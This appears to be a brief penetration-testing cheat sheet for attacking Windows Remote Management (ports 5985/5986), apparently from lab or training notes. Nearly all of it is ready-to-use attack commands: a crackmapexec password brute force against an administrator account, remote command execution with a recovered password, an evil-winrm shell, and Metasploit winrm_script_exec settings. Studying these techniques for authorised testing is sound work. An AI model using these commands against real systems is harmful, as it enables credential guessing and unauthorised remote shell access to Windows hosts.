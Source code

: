 
# Overview
Windows Remote Management (WinRM)

## Ports
- 5985/5986 ports


---

# Tools
## crackmapexec
- brute force
- `crackmapexec winrm 10.2.18.45 -u administrator -p /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt`
- `crackmapexec winrm 10.2.18.45 -u administrator -p tinkerbell -x "whoami"`

---

## evil-winrm.rb
- ruby script which gets shell access
- `evil-winrm.rb -u administrator -p 'tinkerbell' -i 10.2.18.5`

---

## msfconsonle
- use exploit/windows/winrm/winrm_script_exec
	- set rhosts addr
	- set force_vbs true
	- set username administrator
	- set password tinkerbell

